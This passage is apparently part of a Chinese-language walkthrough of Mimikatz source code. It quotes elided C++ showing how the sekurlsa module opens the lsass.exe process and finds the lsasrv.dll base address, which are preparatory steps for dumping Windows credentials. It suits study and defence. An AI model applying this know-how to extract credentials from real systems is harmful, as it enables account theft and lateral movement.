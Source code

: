 ```c++
            // ......
        case KULL_M_MEMORY_TYPE_PROCESS_DMP:
            // ......
        case KULL_M_MEMORY_TYPE_KERNEL:
            // ......
        default:
            break;
        }
        if(!status)
            LocalFree(*hMemory);
    }
    return status;
}
```

回到 `kuhl_m_sekurlsa_acquireLSA()` 函数，设置将有关系统版本的信息复制到 `cLsass.osContext` 中：

```c++
// 设置 KUHL_M_SEKURLSA_OS_CONTEXT（osContext）结构中的三个值
 cLsass.osContext.MajorVersion = MIMIKATZ_NT_MAJOR_VERSION;
 cLsass.osContext.MinorVersion = MIMIKATZ_NT_MINOR_VERSION;
 cLsass.osContext.BuildNumber  = MIMIKATZ_NT_BUILD_NUMBER;
```

如果此时没有错误，则调用 `kull_m_process_getVeryBasicModuleInformations()` 函数获取 lsass.exe 进程的基础信息，主要用来获取加载的 lsasrv.dll 模块的基地址。

Get Very Basic Module Informations
----------------------------------

跟进 `kull_m_process_getVeryBasicModuleInformations()` 函数：

- kull\_m\_process.c

```c++
NTSTATUS kull_m_process_getVeryBasicModuleInformations(PKULL_M_MEMORY_HANDLE memory, PKULL_M_MODULE_ENUM_CALLBACK callBack, PVOID pvArg)
{
    NTSTATUS status = STATUS_DLL_NOT_FOUND;
    PLDR_DATA_TABLE_ENTRY pLdrEntry;
    PEB Peb; PEB_LDR_DATA LdrData; LDR_DATA_TABLE_ENTRY LdrEntry;
#if defined(_M_X64) || defined(_M_ARM64) // TODO:ARM64
    // ...
#endif
    ULONG i;
    KULL_M_MEMORY_ADDRESS aBuffer = {NULL, &amp;KULL_M_MEMORY_GLOBAL_OWN_HANDLE};
    KULL_M_MEMORY_ADDRESS aProcess= {NULL, memory};
    PBYTE aLire, fin;
    PWCHAR moduleNameW;
    UNICODE_STRING moduleName;
    PMINIDUMP_MODULE_LIST pMinidumpModuleList;
    PMINIDUMP_STRING pMinidumpString;
    KULL_M_PROCESS_VERY_BASIC_MODULE_INFORMATION moduleInformation;
    PRTL_PROCESS_MODULES modules = NULL;
    BOOL continueCallback = TRUE;
    moduleInformation.DllBase.hMemory = memory;
    switch(memory-&gt;type)
    {
    case KULL_M_MEMORY_TYPE_OWN:
        // ......
    case KULL_M_MEMORY_TYPE_PROCESS:
        moduleInformation.NameDontUseOutsideCallback = &amp;moduleName;
        // 获取进程的 PEB 结构
        if(kull_m_process_peb(memory, &amp;Peb, FALSE))
        {
            aBuffer.address = &amp;LdrData; aProcess.address = Peb.Ldr;
```
